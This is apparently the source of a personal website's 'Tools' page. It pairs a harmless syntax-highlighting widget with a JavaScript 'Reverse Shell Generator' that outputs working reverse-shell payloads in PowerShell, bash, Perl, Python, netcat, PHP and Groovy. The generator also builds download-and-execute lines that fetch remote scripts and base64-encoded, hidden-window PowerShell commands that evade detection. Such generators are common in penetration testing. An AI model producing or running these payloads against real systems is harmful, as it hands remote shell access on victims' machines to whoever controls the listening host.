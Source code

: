 ```yaml
---
title: "Tools"
layout: "post"
---
```


## Syntax Highlighting

<link rel="stylesheet" href="/assets/highlight/styles/monokai-sublime.css">
<script src="/assets/highlight/highlight.pack.js"></script>
<script>

    var g_style_url = "/assets/highlight/styles/";

    hljs.initHighlightingOnLoad(); // Initialize highlight.js 
  
    function autoApplyLanguageStyle() {

        lg_saved = sessionStorage.getItem("language"); // Get the current language from the local session

        if (lg_saved != null) { 
            for (i=0; i < document.getElementById("select_language").length; i++) {
                if (document.getElementById("select_language")[i].value == lg_saved) {
                    document.getElementById("select_language")[i].selected = "true"; // Auto-select the value in the dropdown list 
                    break;
                }
            }
        }

        st_saved = sessionStorage.getItem("style"); // Get the current style from the local session

        if (st_saved != null) {
            for (i=0; i < document.getElementById("select_style").length; i++) {
                if (document.getElementById("select_style")[i].value == st_saved) {
                    document.getElementById("select_style")[i].selected = "true"; // Auto-select the value in the dropdown list 
                    break;
                }
            }
        }
    }

    function escapeHtml(unsafe) {

        return unsafe
            .replace(/&/g, "&amp;")
            .replace(/</g, "&lt;")
            .replace(/>/g, "&gt;")
            .replace(/"/g, "&quot;")
            .replace(/'/g, "&#039;");

    }

    function updateStyle() {

        st = document.getElementById("select_style").value; // Get the select style 

        var links = document.getElementsByTagName("link");

        for (var i = links.length; i >= 0; i--) {

            if (links[i] && links[i].getAttribute("href") != null) {

                if (links[i].getAttribute("href").indexOf(g_style_url) != -1) {

                    var old_style_url = links[i].getAttribute("href")
                    var new_style_url = g_style_url + st + ".css"

                    if (old_style_url != new_style_url) {

                        var newlink = document.createElement("link");
                        newlink.setAttribute("rel", "stylesheet");
                        newlink.setAttribute("type", "text/css");
                        newlink.setAttribute("href", new_style_url);
                        links[i].parentNode.replaceChild(newlink, links[i])

                        sessionStorage.setItem("style", st); // Store selected style in the local session 
                    }
                }
            }
        }
    }
  
    function updateCode() {

        c = document.getElementById("textarea_src_code").value; // Get the source code to highlight
        lg = document.getElementById("select_language").value; // Get the selected language

        cr = document.getElementById("code_result"); // Get the preview element 
        cr.className = ""; // Remove any class that was previously added to this element 
        cr.classList.add("hljs"); // Add the default 'hljs" class to the element 
        cr.classList.add(lg); // Add the class corresponding to the selected language 

        sessionStorage.setItem("language", lg); // Store the selected language in the local session
                    
        document.getElementById("code_result").innerHTML = escapeHtml(c); // Copy the source code to the preview element 
        hljs.highlightBlock(document.getElementById("code_result")); // Syntax highlighting (highlight.js) 

    }

    function updateStyleAndCode() {
        updateStyle();
        updateCode();
    }
</script>

<div>
    <div name="code">
        <textarea id ="textarea_src_code" rows="8" spellcheck="false" style="width:100%" onchange="updateCode()">print("Hello World!")</textarea>
    </div>
    <div name="options">
    Language:
    <select id="select_language" style="width:200px" onchange="updateCode()">
        <option value="1c">1C</option>
        <option value="abnf">ABNF</option>
        <option value="accesslog">Access logs</option>
        <option value="ada">Ada</option>
        <option value="arm">ARM assembler</option>
        <option value="avrasm">AVR assembler</option>
        <option value="actionscript">ActionScript</option>
        <option value="apache">Apache</option>
        <option value="applescript">AppleScript</option>
        <option value="arcade">Arcade</option>
        <option value="asciidoc">AsciiDoc</option>
        <option value="aspectj">AspectJ</option>
        <option value="autohotkey">AutoHotkey</option>
        <option value="autoit">AutoIt</option>
        <option value="awk">Awk</option>
        <option value="axapta">Axapta</option>
        <option value="bash">Bash</option>
        <option value="basic">Basic</option>
        <option value="bnf">BNF</option>
        <option value="brainfuck">Brainfuck</option>
        <option value="csharp">C#</option>
        <option value="cpp">C++</option>
        <option value="cal">C/AL</option>
        <option value="cos">Cache Object Script</option>
        <option value="cmake">CMake</option>
        <option value="coq">Coq</option>
        <option value="csp">CSP</option>
        <option value="css">CSS</option>
        <option value="capnproto">Cap’n Proto</option>
        <option value="clojure">Clojure</option>
        <option value="coffeescript">CoffeeScript</option>
        <option value="crmsh">Crmsh</option>
        <option value="crystal">Crystal</option>
        <option value="dns">DNS Zone file</option>
        <option value="dos">DOS</option>
        <option value="dart">Dart</option>
        <option value="delphi">Delphi</option>
        <option value="diff">Diff</option>
        <option value="django">Django</option>
        <option value="dockerfile">Dockerfile</option>
        <option value="dsconfig">dsconfig</option>
        <option value="dts">DTS (Device Tree)</option>
        <option value="dust">Dust</option>
        <option value="elixir">Elixir</option>
        <option value="elm">Elm</option>
        <option value="erlang">Erlang</option>
        <option value="excel">Excel</option>
        <option value="fix">FIX</option>
        <option value="fortran">Fortran</option>
        <option value="gcode">G-Code</option>
        <option value="gams">Gams</option>
        <option value="gauss">GAUSS</option>
        <option value="gherkin">Gherkin</option>
        <option value="go">Go</option>
        <option value="golo">Golo</option>
        <option value="gradle">Gradle</option>
        <option value="groovy">Groovy</option>
        <option value=" XML">HTML</option>
        <option value="http">HTTP</option>
        <option value="haml">Haml</option>
        <option value="handlebars">Handlebars</option>
        <option value="haskell">Haskell</option>
        <option value="haxe">Haxe</option>
        <option value="hy">Hy</option>
        <option value=" TOML">Ini</option>
        <option value="inform7">Inform7</option>
        <option value="irpf90">IRPF90</option>
        <option value="json">JSON</option>
        <option value="java">Java</option>
        <option value="javascript">JavaScript</option>
        <option value="kotlin">Kotlin</option>
        <option value="leaf">Leaf</option>
        <option value="lasso">Lasso</option>
        <option value="less">Less</option>
        <option value="ldif">LDIF</option>
        <option value="lisp">Lisp</option>
        <option value="livecodeserver">LiveCode Server</option>
        <option value="livescript">LiveScript</option>
        <option value="lua">Lua</option>
        <option value="makefile">Makefile</option>
        <option value="markdown">Markdown</option>
        <option value="mathematica">Mathematica</option>
        <option value="matlab">Matlab</option>
        <option value="maxima">Maxima</option>
        <option value="mel">Maya Embedded Language</option>
        <option value="mercury">Mercury</option>
        <option value="mizar">Mizar</option>
        <option value="mojolicious">Mojolicious</option>
        <option value="monkey">Monkey</option>
        <option value="moonscript">Moonscript</option>
        <option value="n1ql">N1QL</option>
        <option value="nsis">NSIS</option>
        <option value="nginx">Nginx</option>
        <option value="nimrod">Nimrod</option>
        <option value="nix">Nix</option>
        <option value="ocaml">OCaml</option>
        <option value="objectivec">Objective C</option>
        <option value="glsl">OpenGL Shading Language</option>
        <option value="openscad">OpenSCAD</option>
        <option value="ruleslanguage">Oracle Rules Language</option>
        <option value="oxygene">Oxygene</option>
        <option value="pf">PF</option>
        <option value="php">PHP</option>
        <option value="parser3">Parser3</option>
        <option value="perl">Perl</option>
        <option value="plaintext">Plaintext</option>
        <option value="pony">Pony</option>
        <option value="pgsql">PostgreSQL & PL/pgSQL</option>
        <option value="powershell">PowerShell</option>
        <option value="processing">Processing</option>
        <option value="prolog">Prolog</option>
        <option value="properties">Properties</option>
        <option value="protobuf">Protocol Buffers</option>
        <option value="puppet">Puppet</option>
        <option value="python" selected>Python</option>
        <option value="profile">Python profiler results</option>
        <option value="k">Q</option>
        <option value="qml">QML</option>
        <option value="r">R</option>
        <option value="reasonml">ReasonML</option>
        <option value="rib">RenderMan RIB</option>
        <option value="rsl">RenderMan RSL</option>
        <option value="graph">Roboconf</option>
        <option value="ruby">Ruby</option>
        <option value="rust">Rust</option>
        <option value="sas">SAS</option>
        <option value="scss">SCSS</option>
        <option value="sql">SQL</option>
        <option value="p21">STEP Part 21</option>
        <option value="scala">Scala</option>
        <option value="scheme">Scheme</option>
        <option value="scilab">Scilab</option>
        <option value="shell">Shell</option>
        <option value="smali">Smali</option>
        <option value="smalltalk">Smalltalk</option>
        <option value="stan">Stan</option>
        <option value="stata">Stata</option>
        <option value="stylus">Stylus</option>
        <option value="subunit">SubUnit</option>
        <option value="swift">Swift</option>
        <option value="tcl">Tcl</option>
        <option value="tap">Test Anything Protocol</option>
        <option value="tex">TeX</option>
        <option value="thrift">Thrift</option>
        <option value="tp">TP</option>
        <option value="twig">Twig</option>
        <option value="typescript">TypeScript</option>
        <option value="vbnet">VB.Net</option>
        <option value="vbscript">VBScript</option>
        <option value="vhdl">VHDL</option>
        <option value="vala">Vala</option>
        <option value="verilog">Verilog</option>
        <option value="vim">Vim Script</option>
        <option value="x86asm">x86 Assembly</option>
        <option value="xl">XL</option>
        <option value="xquery">XQuery</option>
        <option value="yml">YAML</option>
        <option value="zephir">Zephir</option>
    </select>
    Style:
    <select id="select_style" style="width:200px" onchange="updateStyle()">
        <option value="a11y-dark">A11y Dark</option>
        <option value="a11y-light">A11y Light</option>
        <option value="agate">Agate</option>
        <option value="androidstudio">Androidstudio</option>
        <option value="an-old-hope">An Old Hope</option>
        <option value="arduino-light">Arduino Light</option>
        <option value="arta">Arta</option>
        <option value="ascetic">Ascetic</option>
        <option value="atelier-cave-dark">Atelier Cave Dark</option>
        <option value="atelier-cave-light">Atelier Cave Light</option>
        <option value="atelier-dune-dark">Atelier Dune Dark</option>
        <option value="atelier-dune-light">Atelier Dune Light</option>
        <option value="atelier-estuary-dark">Atelier Estuary Dark</option>
        <option value="atelier-estuary-light">Atelier Estuary Light</option>
        <option value="atelier-forest-dark">Atelier Forest Dark</option>
        <option value="atelier-forest-light">Atelier Forest Light</option>
        <option value="atelier-heath-dark">Atelier Heath Dark</option>
        <option value="atelier-heath-light">Atelier Heath Light</option>
        <option value="atelier-lakeside-dark">Atelier Lakeside Dark</option>
        <option value="atelier-lakeside-light">Atelier Lakeside Light</option>
        <option value="atelier-plateau-dark">Atelier Plateau Dark</option>
        <option value="atelier-plateau-light">Atelier Plateau Light</option>
        <option value="atelier-savanna-dark">Atelier Savanna Dark</option>
        <option value="atelier-savanna-light">Atelier Savanna Light</option>
        <option value="atelier-seaside-dark">Atelier Seaside Dark</option>
        <option value="atelier-seaside-light">Atelier Seaside Light</option>
        <option value="atelier-sulphurpool-dark">Atelier Sulphurpool Dark</option>
        <option value="atelier-sulphurpool-light">Atelier Sulphurpool Light</option>
        <option value="atom-one-dark">Atom One Dark</option>
        <option value="atom-one-dark-reasonable">Atom One Dark Reasonable</option>
        <option value="atom-one-light">Atom One Light</option>
        <option value="brown-paper">Brown Paper</option>
        <option value="codepen-embed">Codepen Embed</option>
        <option value="color-brewer">Color Brewer</option>
        <option value="darcula">Darcula</option>
        <option value="dark">Dark</option>
        <option value="darkula">Darkula</option>
        <option value="default">Default</option>
        <option value="docco">Docco</option>
        <option value="dracula">Dracula</option>
        <option value="far">Far</option>
        <option value="foundation">Foundation</option>
        <option value="github">Github</option>
        <option value="github-gist">Github Gist</option>
        <option value="gml">Gml</option>
        <option value="googlecode">Googlecode</option>
        <option value="gradient-dark">Gradient Dark</option>
        <option value="grayscale">Grayscale</option>
        <option value="gruvbox-dark">Gruvbox Dark</option>
        <option value="gruvbox-light">Gruvbox Light</option>
        <option value="hopscotch">Hopscotch</option>
        <option value="hybrid">Hybrid</option>
        <option value="idea">Idea</option>
        <option value="ir-black">Ir Black</option>
        <option value="isbl-editor-dark">Isbl Editor Dark</option>
        <option value="isbl-editor-light">Isbl Editor Light</option>
        <option value="kimbie.light">Kimbie Light</option>
        <option value="kimbie.dark">Kimbie Dark</option>
        <option value="lightfair">Lightfair</option>
        <option value="magula">Magula</option>
        <option value="mono-blue">Mono Blue</option>
        <option value="monokai">Monokai</option>
        <option value="monokai-sublime" selected>Monokai Sublime</option>
        <option value="night-owl">Night Owl</option>
        <option value="nord">Nord</option>
        <option value="obsidian">Obsidian</option>
        <option value="ocean">Ocean</option>
        <option value="paraiso-dark">Paraiso Dark</option>
        <option value="paraiso-light">Paraiso Light</option>
        <option value="pojoaque">Pojoaque</option>
        <option value="purebasic">Purebasic</option>
        <option value="qtcreator_dark">Qtcreator Dark</option>
        <option value="qtcreator_light">Qtcreator Light</option>
        <option value="railscasts">Railscasts</option>
        <option value="rainbow">Rainbow</option>
        <option value="routeros">Routeros</option>
        <option value="school-book">School Book</option>
        <option value="shades-of-purple">Shades Of Purple</option>
        <option value="solarized-dark">Solarized Dark</option>
        <option value="solarized-light">Solarized Light</option>
        <option value="sunburst">Sunburst</option>
        <option value="tomorrow">Tomorrow</option>
        <option value="tomorrow-night-blue">Tomorrow Night Blue</option>
        <option value="tomorrow-night-bright">Tomorrow Night Bright</option>
        <option value="tomorrow-night">Tomorrow Night</option>
        <option value="tomorrow-night-eighties">Tomorrow Night Eighties</option>
        <option value="vs2015">Vs2015</option>
        <option value="vs">Vs</option>
        <option value="xcode">Xcode</option>
        <option value="xt256">Xt256</option>
        <option value="zenburn">Zenburn</option>
    </select>
    <!--<button name="btn_highlight" style="width:150px" onclick="javascript:updateStyleAndCode()">Highlight!</button>-->
    </div>
    <div style="overflow:auto">
        <pre id="code_result"></pre>
    </div>
</div>
<script>
    autoApplyLanguageStyle();
    updateStyleAndCode();
</script>


## Reverse Shell Generator (alpha)

<script>

    function encodeBash(payload) {
        return "bash -c \"{echo," + btoa(payload) + "}|{base64,-d}|{bash,-i}\"";
    }

    function encodePowerShell(payload) {

        // Convert payload string to byte array
        var array = new Uint8Array(payload.length*2);
        for (var i=0; i<array.length; i++) {
            if (i % 2 == 0) {
                array[i] = payload[i/2].charCodeAt(0);
            } else {
                array[i] = 0;
            }
        }

        // Convert byte array to binary string
        var bstr = "";
        for (var i=0; i<array.length; i++) {
            bstr += String.fromCharCode(array[i]);
        }

        // Convert binary string to base64 and create command line
        var result = "powershell -nop -noni -w Hidden -ep Bypass -e " + btoa(bstr);

        return result;
    }

    function updateOutput(eltName, eltValue, eltClass) {

        elt = document.getElementById(eltName);
        elt.className = "";
        elt.classList.add("hljs");
        elt.classList.add(eltClass);
        elt.innerHTML = escapeHtml(eltValue);
        hljs.highlightBlock(elt);

    }

    function updateCommandOutput() {

        var sl = document.getElementById("rs_select_language").value;
        var lhost = document.getElementById("rs_lhost").value;
        var lport = document.getElementById("rs_lport").value;

        if (sl != "" && sessionStorage.getItem("rs_select_language") != sl) {
            sessionStorage.setItem("rs_select_language", sl);
        }

        if (lhost != "" && sessionStorage.getItem("rs_lhost") != lhost) {
            sessionStorage.setItem("rs_lhost", lhost);
        }
        
        if (lport != "" && sessionStorage.getItem("rs_lport") != lport) {
            sessionStorage.setItem("rs_lport", lport);
        }

        var res_raw = "";
        var res_oneliner = "";
        var res_encoded = "";
        var res_raw_hljs = "";
        var res_oneliner_hljs = "";
        var res_encoded_hljs = "";

        if (sl == "psh") {
            res_raw_hljs = "powershell";
            res_oneliner_hljs = "powershell";
            res_encoded_hljs = "powershell";
            res_encoded_hljs = "powershell";
            res_raw = "$c=New-Object Net.Sockets.TCPClient(\"" + lhost + "\"," + lport + ");\n$s=$c.GetStream();\n[byte[]]$b=0..65535|%{0};\nwhile(($i=$s.Read($b, 0, $b.Length)) -ne 0)\n{\n\t$d=(New-Object -t Text.ASCIIEncoding).GetString($b,0,$i-1);\n\tif($d -eq \"exit\"){break}\n\t$sb=if($i -gt 1) {try {iex \"$d 2>&1\" | Out-String} catch {$_ | Out-string}} else{\"\"};\n\t$sb2=$sb+\"PS \"+(pwd).Path+\"> \";\n\t$sdb=([text.encoding]::ASCII).GetBytes($sb2)\n\t$s.Write($sdb,0,$sdb.Length);\n\t$s.Flush()\n};\n$c.Close()";
            res_oneliner = "# No one-liner for this payload";
            res_encoded = encodePowerShell(res_raw);
        } else if (sl == "psh_powersploit") {
            res_raw_hljs = "powershell";
            res_oneliner_hljs = "powershell";
            res_encoded_hljs = "powershell";
            res_encoded_hljs = "powershell";
            res_raw = "IEX (New-Object System.Net.WebClient).DownloadString('http://" + lhost + "/tools/Invoke-PowerShellTcp.ps1');\nInvoke-powershellTcp -Reverse -IPAddress " + lhost + " -Port " + lport;
            res_oneliner = "powershell -nop -noni -w Hidden -ep Bypass -c \"" + res_raw.replace(/\n/g, "") + "\"";
            res_encoded = encodePowerShell(res_raw);
        } else if (sl == "psh_powercat") { 
            res_raw_hljs = "powershell";
            res_oneliner_hljs = "powershell";
            res_encoded_hljs = "powershell";
            res_encoded_hljs = "bash";
            res_raw = "IEX (New-Object System.Net.WebClient).DownloadString('http://" + lhost + "/tools/powercat.ps1');\npowercat -c " + lhost + " -p " + lport + " -e cmd";
            res_oneliner = "powershell -nop -noni -w Hidden -ep Bypass -c \"" + res_raw.replace(/\n/g, "") + "\"";;
            res_encoded = encodePowerShell(res_raw);
        } else if (sl == "bash") { 
            res_raw_hljs = "bash";
            res_oneliner_hljs = "bash";
            res_encoded_hljs = "bash";
            res_raw = "bash -i >& /dev/tcp/" + lhost + "/" + lport + " 0>&1";
            res_oneliner = "bash -c \"" + res_raw + "\"";
            res_encoded = encodeBash(res_raw);
        } else if (sl == "bash_mkfifo") { 
            res_raw_hljs = "bash";
            res_oneliner_hljs = "bash";
            res_encoded_hljs = "bash";
            res_raw = "rm /tmp/f;\nmkfifo /tmp/f;\ncat /tmp/f|/bin/sh -i 2>&1|nc " + lhost + " " + lport + " >/tmp/f";
            res_oneliner = res_raw.replace(/\n/g, "");
            res_encoded = encodeBash(res_raw);
        } else if (sl == "perl") { 
            res_raw_hljs = "perl";
            res_oneliner_hljs = "bash";
            res_encoded_hljs = "bash";
            res_raw = "use Socket;\n$i=\"" + lhost + "\";\n$p=" + lport + ";\nsocket(S,PF_INET,SOCK_STREAM,getprotobyname(\"tcp\"));\nif(connect(S,sockaddr_in($p,inet_aton($i)))){\n\topen(STDIN,\">&S\");\n\topen(STDOUT,\">&S\");\n\topen(STDERR,\">&S\");\n\texec(\"/bin/sh -i\");\n};";
            res_oneliner = "perl -e '" + res_raw.replace(/\t/g, "").replace(/\n/g, "") + "'";
            res_encoded = "perl -MMIME::Base64 -e \"eval(decode_base64('" + btoa(res_raw) + "'))\"";
        } else if (sl == "perl_web") { 
            res_raw_hljs = "perl";
            res_oneliner_hljs = "bash";
            res_encoded_hljs = "bash";
            res_raw = "curl http://" + lhost + "/rev.pl -o /tmp/rev.pl ; perl /tmp/rev.pl";
            res_oneliner = res_raw;
            res_encoded = encodeBash(res_raw);
        } else if (sl == "python") { 
            res_raw_hljs = "python";
            res_oneliner_hljs = "bash";
            res_encoded_hljs = "bash";
            res_raw = "import socket,subprocess,os;\ns=socket.socket(socket.AF_INET,socket.SOCK_STREAM);\ns.connect((\"" + lhost + "\"," + lport + "));\nos.dup2(s.fileno(),0);\nos.dup2(s.fileno(),1);\nos.dup2(s.fileno(),2);\np=subprocess.call([\"/bin/sh\",\"-i\"]);";
            res_oneliner = "python -c '" + res_raw.replace(/\n/g, "") + "'";
            res_encoded = "python -c \"exec('" + btoa(res_raw) + "'.decode('base64'))\"";
        } else if (sl == "netcat") { 
            res_raw_hljs = "bash";
            res_oneliner_hljs = "bash";
            res_encoded_hljs = "bash";
            res_raw = "nc -e /bin/sh " + lhost + " " + lport;
            res_oneliner = res_raw;
            res_encoded = encodeBash(res_raw);
        } else if (sl == "php") { 
            res_raw_hljs = "php";
            res_oneliner_hljs = "bash";
            res_encoded_hljs = "bash";
            res_raw = "$sock=fsockopen(\"" + lhost + "\"," + lport + ");\nexec(\"/bin/sh -i <&3 >&3 2>&3\");";
            res_oneliner = "php -r '" + res_raw.replace(/\n/g, "") + "'";
            res_encoded = encodeBash(res_oneliner);
        } else if (sl == "groovy") { 
            res_raw_hljs = "groovy";
            res_oneliner_hljs = "bash";
            res_encoded_hljs = "bash";
            res_raw = "String host=\"10.10.10.10\";\nint port=1337;\nString cmd=\"/bin/sh\";\nProcess p=new ProcessBuilder(cmd).redirectErrorStream(true).start();\nSocket s=new Socket(host,port);\nInputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();\nOutputStream po=p.getOutputStream(),so=s.getOutputStream();\nwhile(!s.isClosed()){\n\twhile(pi.available()>0)so.write(pi.read());\n\twhile(pe.available()>0)so.write(pe.read());\n\twhile(si.available()>0)po.write(si.read());\n\tso.flush();\n\tpo.flush();\n\tThread.sleep(50);\n\ttry {\n\t\tp.exitValue();\n\t\tbreak;\n\t} catch (Exception e){}\n};\np.destroy();\ns.close();";
            res_oneliner = "# No one-liner for this payload";
            res_encoded = "# No encoder for this payload";
        }

        updateOutput("rs_result_raw", res_raw, res_raw_hljs);
        updateOutput("rs_result_oneliner", res_oneliner, res_oneliner_hljs);
        updateOutput("rs_result_encoded", res_encoded, res_encoded_hljs);
    }
</script>
<div>
    LHOST: 
    <input name="rs_lhost" id="rs_lhost" style="width:150px" onchange="updateCommandOutput()"/>
    LPORT:
    <input name="rs_lport" id="rs_lport" style="width:75px" onchange="updateCommandOutput()"/>
    Language:
    <select id="rs_select_language" style="width:200px" onchange="updateCommandOutput()">
        <option value="psh">PowerShell</option>
        <option value="psh_powersploit">PowerShell (PowerSploit)</option>
        <option value="psh_powercat">PowerShell (Powercat)</option>
        <option value="bash">Bash</option>
        <option value="bash_mkfifo">Bash (mkfifo)</option>
        <option value="perl">Perl</option>
        <option value="perl_web">Perl (web server)</option>
        <option value="python">Python</option>
        <option value="netcat">Netcat</option>
        <option value="php">PHP</option>
        <option value="groovy">Groovy</option>
    </select>
</div>

#### One-liner

<pre id="rs_result_oneliner"></pre>


#### Encoded

<pre id="rs_result_encoded"></pre>

#### Raw

<pre id="rs_result_raw"></pre>

<script>
    
    if (sessionStorage.getItem("rs_select_language") != null) {
        for (i=0; i < document.getElementById("rs_select_language").length; i++) {
            if (document.getElementById("rs_select_language")[i].value == sessionStorage.getItem("rs_select_language")) {
                document.getElementById("rs_select_language")[i].selected = "true"; 
                break;
            }
        }
    }

    if (sessionStorage.getItem("rs_lhost") != null) {
        document.getElementById("rs_lhost").value = sessionStorage.getItem("rs_lhost");
    } else {
        document.getElementById("rs_lhost").value = "10.10.13.37";
    }
    
    if (sessionStorage.getItem("rs_lport") != null) {
        document.getElementById("rs_lport").value = sessionStorage.getItem("rs_lport");
    } else {
        document.getElementById("rs_lport").value = "1337";
    }

    updateCommandOutput();

</script>
